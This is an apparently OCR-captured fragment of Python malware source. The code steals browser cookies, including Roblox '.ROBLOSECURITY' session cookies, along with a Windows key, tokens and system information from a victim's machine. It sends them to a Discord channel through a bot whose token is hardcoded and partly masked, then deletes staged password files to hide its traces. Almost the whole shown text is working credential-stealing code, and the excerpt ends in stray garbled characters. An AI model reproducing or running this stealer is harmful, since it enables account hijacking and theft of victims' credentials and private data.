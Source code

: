 ```
        keys = "Unknown"
        types = "Unknown"

    cookie = [".ROBLOSECURITY"]
    cookies = []
    limit = 2000
    roblox = "No Roblox cookies found"

    try:
        cookies.extend(list(steal.chrome()))
    except Exception as e:
        print(f"Error stealing Chrome cookies: {e}")

    try:
        cookies.extend(list(steal.firefox()))
    except Exception as e:
        print(f"Error stealing Firefox cookies: {e}")

    try:
        for y in cookie:
            send = str([str(x) for x in cookies if y in str(x)])
            chunks = [send[i:i + limit] for i in range(0, len(send), limit)]
            for z in chunks:
                roblox = f'```{z}```'
    except Exception as e:
        print(f"Error processing cookies: {e}")

    embed = discord.Embed(title=f"Data from {hostname}", description="A victim's data was extracted, here's the details:", color=discord.Color.blue())
    embed.add_field(name="Windows Key", value=f"User: {usr}\nType: {types}\nKey: {keys}", inline=False)
    embed.add_field(name="Roblox Security", value=roblox[:1024], inline=False)
    embed.add_field(name="Tokens", value=message[:1024], inline=False)
    
    await channel.send(embed=embed)
    
    with open(r'C:\ProgramData\system_info.json', 'w', encoding='utf-8') as f:
        json.dump(system_info, f, indent=4, ensure_ascii=False)
    
    await channel.send(file=discord.File(r'C:\ProgramData\system_info.json'))

    try:
        os.remove(r'C:\ProgramData\pay2winflag.jpg')
        os.remove(r'C:\ProgramData\pay2winflag.jpg.enc')
        os.remove(r'C:\ProgramData\passwords.zip')
        os.remove(r'C:\ProgramData\passwords.txt')
        os.remove(r'C:\ProgramData\system_info.json')
    except Exception as e:
        print(f"Error cleaning up: {e}")

BOT_TOKEN = "MTM2NDIzNDEzNjE5MzMzOTQyNA.GHC4yD.**************************"
CHANNEL_ID = 1371505369230344273

if __name__ == "__main__":
    bot.run(BOT_TOKEN)
mÇ±
```
